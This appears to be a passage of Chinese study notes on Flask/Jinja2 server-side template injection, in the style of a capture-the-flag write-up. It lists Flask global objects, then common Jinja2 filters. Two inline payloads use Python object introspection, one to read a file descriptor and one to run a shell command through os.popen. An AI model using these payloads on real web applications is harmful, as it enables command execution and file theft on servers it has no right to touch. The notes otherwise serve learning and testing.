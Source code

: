 ```python
current_app          应用上下文，一个全局变量。
 
request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
 
request.args.x1   	 get传参
 
request.values.x1 	 所有参数
 
request.cookies      cookies参数
 
request.headers      请求头参数
 
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
 
request.data  		 post传参	(Content-Type:a/b)
 
request.json		 post传json  (Content-Type: application/json)
 
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
 
g                    {{g}}得到<flask.g of 'flask_ssti'>
```

#### 常用过滤器

```python
int()：将值转换为int类型；
 
float()：将值转换为float类型；
 
lower()：将字符串转换为小写；
 
upper()：将字符串转换为大写；
 
title()：把值中的每个单词的首字母都转成大写；
 
capitalize()：把变量值的首字母转成大写，其余字母转小写；
 
trim()：截取字符串前面和后面的空白字符；
 
wordcount()：计算一个长字符串中单词的个数；
 
reverse()：字符串反转；
 
replace(value,old,new)： 替换将old替换为new的字符串；
 
truncate(value,length=255,killwords=False)：截取length长度的字符串；
 
striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；
 
escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。
 
safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；
 
list()：将变量列成列表；
 
string()：将变量转换成字符串；
 
join()：将一个序列中的参数值拼接成字符串。示例看上面payload；
 
abs()：返回一个数值的绝对值；
 
```